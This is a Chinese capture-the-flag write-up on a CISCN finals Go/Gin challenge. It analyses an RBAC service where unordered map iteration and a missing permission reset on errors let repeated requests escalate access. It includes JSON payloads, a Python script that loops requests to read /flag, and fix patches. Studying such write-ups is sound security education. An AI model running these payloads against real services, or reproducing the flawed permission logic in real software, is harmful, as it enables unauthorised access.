

# 第十八届CISCN决赛第二日AWDP RBAC-先知社区

> **来源**: https://xz.aliyun.com/news/18546  
> **文章ID**: 18546

---

## 题目介绍

该题是第十八届CISCN决赛第二日AWDP的一道go题，相比另外两个ex的java题，这个题目还是比较简单的。题目环境目前已上传到玄机平台， 可利用该平台进行复现。

<https://xj.edisec.net/challenges/169>

## 源码分析



```
package main

import (
    "errors"
    "os"
    "path/filepath"
    "strings"

    "github.com/gin-gonic/gin"
)

var RBACList = make(map[string]int)

type ResTemplate struct {
    Success bool
    Data    any
}

type ExecStruct struct {
    File      []string
    Directory []string
    Pwd       []string
    Flag      []string
    FuncName  string
    Param     string
}

func main() {
    r := gin.Default()
    initRBAC()
    r.GET("/", func(c *gin.Context) {
        htmlContent, err := os.ReadFile("index.html")
        if err != nil {
            c.String(400, "Error loading HTML file")
            return
        }

        c.Writer.Write(htmlContent)
    })

    r.GET("/getCurrentRBAC", func(c *gin.Context) {
        var response ResTemplate
        if RBACList["rbac:read"] == 1 {
            response = ResTemplate{
                Success: true,
                Data:    RBACList,
            }
            c.JSON(200, response)
        } else {
            response = ResTemplate{
                Success: false,
            }
            c.JSON(403, response)

        }

    })

    r.POST("/execSysFunc", func(c *gin.Context) {
        var execStruct ExecStruct
        var response ResTemplate
        err := c.ShouldBindJSON(&execStruct)
        if err != nil {
            response = ResTemplate{
                Success: false,
                Data:    map[string]string{"error": err.Error()},
            }
            c.JSON(400, response)
        }

        // permission grant
        RBACToGrant := make(map[string]int)
        var value string
        maxDeep := 0

        if execStruct.Directory != nil {
            for _, value = range execStruct.Directory {
                if maxDeep < 8 {
                    RBACToGrant["directory:"+value] = 1
                    maxDeep++
                } else {
                    break
                }

            }
        }
        if execStruct.Flag != nil {
            for _, value = range execStruct.Flag {
                if maxDeep < 8 {
                    RBACToGrant["flag:"+value] = 1
                    maxDeep++
                } else {
                    break
                }
            }
        }
        if execStruct.Pwd != nil {
            for _, value = range execStruct.Pwd {
                if maxDeep < 8 {
                    RBACToGrant["pwd:"+value] = 1
                    maxDeep++
                } else {
                    break
                }

            }
        }

        if execStruct.File != nil {

            for _, value = range execStruct.File {
                // Grant temporary file:return permissions
                if value == "return" && RBACList["rbac:change_return"] != 1 {
                    if maxDeep < 5 {
                        RBACToGrant["rbac:change_return:1"] = 1
                        RBACToGrant["file:"+value] = 1
                        RBACToGrant["rbac:change_return:0"] = 1
                        maxDeep += 3
                    } else {
                        break
                    }

                } else {
                    if maxDeep < 8 {
                        RBACToGrant["file:"+value] = 1
                        maxDeep++
                    } else {
                        break
                    }

                }

            }
        }
        updateRBAC(RBACToGrant)

        result, err := execCommand(execStruct.FuncName, execStruct.Param)
        if err != nil {
            response = ResTemplate{
                Success: false,
                Data:    map[string]string{"error": err.Error()},
            }
            c.JSON(400, response)

        } else {
            response = ResTemplate{
                Success: true,
                Data:    map[string]string{"result": result},
            }
            initRBAC()
            c.JSON(200, response)
        }

    })
    r.Run(":80")
}

func initRBAC() {
    RBACList = make(map[string]int)
    RBACList["file:read"] = 0
    RBACList["file:return"] = 0
    RBACList["flag:read"] = 0
    RBACList["flag:return"] = 0
    RBACList["pwd:read"] = 0
    RBACList["directory:read"] = 0
    RBACList["directory:return"] = 0
    RBACList["rbac:read"] = 1
    RBACList["rbac:change_read"] = 1
    RBACList["rbac:change_return"] = 0

}

func updateRBAC(RBACToGrant map[string]int) {
    for key, value := range RBACToGrant {
        if strings.HasSuffix(key, ":read") {
            if RBACList["rbac:change_read"] == 1 {
                RBACList[key] = value
            }
        } else if strings.HasSuffix(key, ":return") {
            if RBACList["rbac:change_return"] == 1 {
                RBACList[key] = value
            }
        } else if key == "rbac:change_return:1" {
            RBACList["rbac:change_return"] = 1

        } else if key == "rbac:change_return:0" {
            RBACList["rbac:change_return"] = 0

        } else {
            RBACList[key] = value
        }

    }
}

func execCommand(funcName string, param string) (string, error) {

    if funcName == "getPwd" {
        if RBACList["pwd:read"] == 1 {
            pwd, err := os.Getwd()
            return pwd, err

        } else {
            return "No Permission", nil
        }
    } else if funcName == "getDirectory" {
        // read directory
        if RBACList["directory:read"] == 1 {
            var fileNames []string
            err := filepath.Walk(param, func(path string, info os.FileInfo, err error) error {
                fileNames = append(fileNames, info.Name())
                return nil
            })
            if err != nil {
                return "error", err
            }
            directoryFiles := strings.Join(fileNames, " ")
            if RBACList["directory:return"] == 1 {
                return directoryFiles, nil
            } else {
                return "the directory " + param + " exists", nil
            }

        } else {
            return "No Permission", nil
        }

    } else if funcName == "getFile" {
        // read file
        if RBACList["file:read"] == 1 {
            if strings.Contains(param, "flag") {
                if RBACList["flag:read"] != 1 {
                    return "No Permission", nil
                }

            }
            data, err := os.ReadFile(param)

            if err != nil {
                return "file:" + param + " doesn't exist", nil
            }
            content := string(data)
            if RBACList["file:return"] == 0 {
                return "the file " + param + " exists", nil
            } else if RBACList["file:return"] == 1 && !strings.Contains(param, "flag") {
                return content, nil
            } else if RBACList["file:return"] == 1 && strings.Contains(param, "flag") && RBACList["flag:return"] == 1 {
                return content, nil
            } else {
                return "the file " + param + " exists", nil
            }

        } else {
            return "No Permission", nil
        }
    } else {
        return "No such func", errors.New("No such func")
    }
}

```

```
else if funcName == "getFile" {
        // read file
        if RBACList["file:read"] == 1 {
            if strings.Contains(param, "flag") {
                if RBACList["flag:read"] != 1 {
                    return "No Permission", nil
                }

            }
            data, err := os.ReadFile(param)

            if err != nil {
                return "file:" + param + " doesn't exist", nil
            }
            content := string(data)
            if RBACList["file:return"] == 0 {
                return "the file " + param + " exists", nil
            } else if RBACList["file:return"] == 1 && !strings.Contains(param, "flag") {
                return content, nil
            } else if RBACList["file:return"] == 1 && strings.Contains(param, "flag") && RBACList["flag:return"] == 1 {
```

不难发现，想要获取flag，需要`file:read` `file:return` `flag:return`都为1并且`param`中要有`flag`字符，这是目标。

看下源码，源码也不长，主要两个路由，一个是`getCurrentRBAC`用于查看当前用户权限，另一个是`execSysFunc`用于执行功能

```
var RBACList = make(map[string]int)
```

定义一个map类型的`RBADList`用于存储权限情况，键是string类型，值是int类型。主要看`execSysFunc`处理

```
var execStruct ExecStruct
        var response ResTemplate
        err := c.ShouldBindJSON(&execStruct)
        if err != nil {
            response = ResTemplate{
                Success: false,
                Data:    map[string]string{"error": err.Error()},
            }
            c.JSON(400, response)
        }

```

首先解析请求的json绑定到结构体`ExecStruct`

```
type ExecStruct struct {
    File      []string
    Directory []string
    Pwd       []string
    Flag      []string
    FuncName  string
    Param     string
}
```

```
// permission grant
RBACToGrant := make(map[string]int)
var value string
maxDeep := 0
...
```

并不会直接修改`RBACList`，而是通过处理`RBACToGrant`进行权限管理。以此查看json中的`Directory` `Flag` `Pwd` `File`,

然后添加到`RBACToGrant`，以`类型:权限`为键，1为值存放。

最后通过`updateRBAC`更新`RBACList`。做题的时候以为`return`权限授予存在漏洞，但发现源码走正常逻辑只能修改file 的`return`权限，并不能修改flag的`return`权限,原因如下。

```
if value == "return" && RBACList["rbac:change_return"] != 1 {
                    if maxDeep < 5 {
                        RBACToGrant["rbac:change_return:1"] = 1
                        RBACToGrant["file:"+value] = 1
                        RBACToGrant["rbac:change_return:0"] = 1
                        maxDeep += 3
                    } else {
                        break
                    }
```

当json中有`"file":["return"]`的时候才会走到这里，添加三个值到`RBACToGrant`

```
rbac:change_return:1 1
file:return 1
rbac:change_return:0 1
```

而到`updateRBAC`中后

```
func updateRBAC(RBACToGrant map[string]int) {
    for key, value := range RBACToGrant {
        if strings.HasSuffix(key, ":read") {
            if RBACList["rbac:change_read"] == 1 {
                RBACList[key] = value
            }
        } else if strings.HasSuffix(key, ":return") {
            if RBACList["rbac:change_return"] == 1 {
                RBACList[key] = value
            }
        } else if key == "rbac:change_return:1" {
            RBACList["rbac:change_return"] = 1

        } else if key == "rbac:change_return:0" {
            RBACList["rbac:change_return"] = 0

        } else {
            RBACList[key] = value
        }

    }
}
```

依次对应，也就是说只有在`return`前一条指令前存在`rbac:change_return:1 1`，才能修改RBAC，但是源码只有`file`能实现这个操作，这里就是漏洞点，因为`RBACToGrant`是个map类型，而go的map是无序的，所以遍历`RBACToGrant`的时候，有可能存在以下情况

```
rbac:change_return:1 1
flag:return 1
rbac:change_return:0 1
```

在update之后就会实现修改`flag:return`为1.

但是一次最多只能修改一个`return`为1，而读取flag需要`file`和`flag`的return都为1，所以连续发正常的包是行不通，因为响应完一次就会执行`initRBAC()`，导致RBAC初始化，但是审计源码发现，当输入错误的函数名的时候就会导致返回400并且不执行`initRBAC()`，导致上一次修改的权限，可以保存下来。

```
updateRBAC(RBACToGrant)

result, err := execCommand(execStruct.FuncName, execStruct.Param)
if err != nil {
    response = ResTemplate{
        Success: false,
        Data:    map[string]string{"error": err.Error()},
    }
    c.JSON(400, response)

} else {
    response = ResTemplate{
        Success: true,
        Data:    map[string]string{"result": result},
    }
    initRBAC()
    c.JSON(200, response)
}

})
```

```
func initRBAC() {
    RBACList = make(map[string]int)
    RBACList["file:read"] = 0
    RBACList["file:return"] = 0
    RBACList["flag:read"] = 0
    RBACList["flag:return"] = 0
    RBACList["pwd:read"] = 0
    RBACList["directory:read"] = 0
    RBACList["directory:return"] = 0
    RBACList["rbac:read"] = 1
    RBACList["rbac:change_read"] = 1
    RBACList["rbac:change_return"] = 0
}
```

所以只需要利用错误的函数名就可以卡住权限，从而多次赋予权限使`file`和`flag`的return都为1。

## 攻击

payload如下

```
{"File":["read","return"],"flag":["read","return"],"FuncName":"getFile1","Param":""}
```


发包一次发现`file:return`为1


然后再多发几次包发现`flag:return`也变成了1

最后正常读取flag即可

```
{"File":["read","return"],"flag":["read","return"],"FuncName":"getFile","Param":"/flag"}
```


写个python脚本

```
import requests
import time

url = "http://env.xj.edisec.net:30206/execSysFunc"

payload1 = {
    "File": ["read", "return"],
    "flag": ["read", "return"],
    "FuncName": "getFile1",
    "Param": ""
}

for i in range(6):
    r = requests.post(url, json=payload1)
    print(r.text)

payload2 = {
    "File": ["read", "return"],
    "flag": ["read", "return"],
    "FuncName": "getFile",
    "Param": "/flag"
}

r = requests.post(url, json=payload2)
print(r.text)

```

## FIX

```
content := string(data)
if strings.Contains(content, "flag") {
    return "No Permission", nil
}
```

直接防止读flag或者在函数名错误的时候也进行RBAC初始化

```
if err != nil {
    response = ResTemplate{
        Success: false,
        Data:    map[string]string{"error": err.Error()},
    }
    initRBAC()
    c.JSON(400, response)

    } else {
    response = ResTemplate{
        Success: true,
        Data:    map[string]string{"result": result},
    }
    initRBAC()
    c.JSON(200, response)
}
```
